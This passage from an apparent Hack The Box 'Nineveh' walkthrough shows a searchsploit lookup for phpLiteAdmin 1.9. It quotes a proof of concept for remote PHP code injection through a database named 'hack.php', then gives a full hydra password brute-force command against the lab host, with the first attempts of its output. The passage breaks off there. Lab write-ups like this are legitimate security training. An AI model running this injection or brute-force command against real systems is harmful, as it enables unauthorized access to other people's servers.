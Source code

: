 `/db/` sounds interesting:

<img src="/assets/img/blog/htb-nineveh/htb-nineveh-07.png">

This `PHP LiteAdmin` is running version 1.9 which after doing a searchploit query is vulnerable to multiple exploits. 

```console
root@EdgeOfNight:~# searchsploit php Lite Admin 1.9
---------------------------------------------------------------------------------------------
 Exploit Title                                           |  Path
                                                         | (/usr/share/exploitdb/platforms/)
---------------------------------------------------------------------- ----------------------
PHPLiteAdmin 1.9.3 - Remote PHP Code Injection           | php/webapps/24044.txt
phpLiteAdmin 1.9.6 - Multiple Vulnerabilities            | php/webapps/39714.txt
---------------------------------------------------------------------- ----------------------
```
From `PHPLiteAdmin 1.9.3 - Remote PHP Code Injection`:
```console
An Attacker can create a sqlite Database with a php extension and insert PHP Code as text fields. When done the Attacker can execute it simply by access the database file with the Webbrowser.

Proof of Concept:

1. We create a db named "hack.php".
(Depending on Server configuration sometimes it will not work and the name for the db will be "hack.sqlite". Then simply try to rename the database / existing database to "hack.php".)
The script will store the sqlite database in the same directory as phpliteadmin.php.

2. Now create a new table in the database and insert a text field with the default value:
<?php phpinfo()?>
```

Fortunately for me I've encountered same exploit once already in one of my other blogs - [zico2](https://v3ded.github.io/ctf/zico2.html). It's a lengthy process of creating a database which is then miss-translated into php code that gets executed on a target server. But for all of this to work we need to be authenticated first! Fire our good old hydra again :-).

```console
root@EdgeOfNight:~# hydra 10.10.10.43 -l whatever -P /usr/share/wordlists/rockyou.txt https-post-form "/db/:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password." -V -s 443

Hydra v8.5 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (http://www.thc.org/thc-hydra) starting at 2017-12-16 07:35:48
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking service http-post-form on port 443 with SSL
[DATA] with additional data /db/:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password.
[ATTEMPT] target 10.10.10.43 - login "whatever" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.10.43 - login "whatever" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.10.43 - login "whatever" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.10.43 - login "whatever" - pass "password" - 4 of 14344399 [child 3] (0/0)
[ATTEMPT] target 10.10.10.43 - login "whatever" - pass "iloveyou" - 5 of 14344399 [child 4] (0/0)
```